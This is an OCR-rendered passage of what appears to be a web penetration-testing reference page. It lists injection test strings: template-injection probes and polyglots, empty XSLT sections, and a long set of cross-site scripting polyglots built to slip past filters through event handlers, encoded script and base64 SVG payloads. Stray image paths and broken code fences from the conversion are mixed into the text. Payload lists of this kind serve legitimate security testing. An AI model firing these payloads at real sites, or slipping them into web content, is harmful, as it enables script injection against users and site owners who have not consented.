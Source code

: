 ```
${{7*7}}
#{7*7}
```
```
### Polygloths

```python
{{7*7}}${7*7}<%= 7*7 %>${{7*7}}#{7*7}${{<%[%'"}}%\
```
```
## [[../xslt-server-side-injection-extensible-stylesheet-language-transformations.md|XSLT Server Side Injection]]

### Basic Tests

```html

```
```
### Polygloths

```html

```
```
## XSS

### Basic Tests

```html
" onclick=alert() a="
'">![[x|]]
javascript:alert()
```
```
### Polygloths

```html
javascript:"/*'/*/*--></noscript></title></textarea></style></template></noembed></script>
-->'"/></sCript><deTailS open x=">" ontoggle=(co\u006efirm)``>
jaVasCript:/*-/*`/*\/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0D%0A//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/![[data:image/svg+xml;base64,PHN2ZyBvbmxvYWQ9ImFsZXJ0KCkvLyI+PC9zdmc+|SVG Image]]\x3e
">>![[x)" ></plaintext\></|\><plaintext/onmouseover=prompt(1) >@gmail.com<isindex formaction=javascript:alert(/XSS/index.html) type=submit>'-->" ></script>"><img/id="confirm( 1|]]"/alt="/"src="/"onerror=eval(id&%23x29;>'">![[http: //i.imgur.com/P8mL8.jpg]]
" onclick=alert(1)// */ alert(1)//
';alert(String.fromCharCode(88,83,83))//';alert(String. fromCharCode(88,83,83))//";alert(String.fromCharCode (88,83,83))//";alert(String.fromCharCode(88,83,83))//-- ></SCRIPT>">'>
javascript://'/</title></style></textarea></script>-->*/alert()/*
javascript://--></script></title></style>"/</textarea>*/a
javascript://</title>"/</script></style></textarea/-->*//
javascript://</title></style></textarea>--></script>*/alert()/*
javascript://'//" --></textarea></style></script></title>*/alert()/*
javascript://</title></textarea></style></script --><li '//" '*/alert()/*', onclick=alert()//
javascript:alert()//--></script></textarea></style></title>*/alert()/*
--></script></title></style>"/</textarea>*/alert()/*
/</title/'/</style/</script/</textarea/-->*/alert()/*
javascript://--></title></style></textarea></script><svg "//' onclick=alert()//
/</title/'/</style/</script/-->*/alert()/*
-->'"/></sCript><svG x=">" onload=(co\u006efirm)``>
<svg%0Ao%00nload=%09((pro\u006dpt))()//
javascript:"/*'/*/*\" /*</title></style></textarea></noscript></noembed></template></script/-->![[data:image/svg+xml;base64,PHN2ZyBvbmxvYWQ9Ii8qJmx0O2h0bWwvKi9vbm1vdXNlb3Zlcj1hbGVydCgpLy8iPjwvc3ZnPg==|SVG Image]]
```